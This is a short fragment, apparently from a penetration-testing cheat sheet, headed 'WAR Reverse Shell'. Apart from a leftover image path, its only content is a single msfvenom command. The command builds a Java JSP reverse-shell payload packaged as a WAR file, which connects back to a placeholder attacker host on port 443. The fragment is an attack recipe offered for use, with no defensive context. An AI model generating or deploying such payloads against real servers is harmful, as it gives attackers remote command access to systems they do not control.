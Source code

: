 ### WAR Reverse Shell

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATTACKING-IP LPORT=443 -f war > reverse-shell.war
```
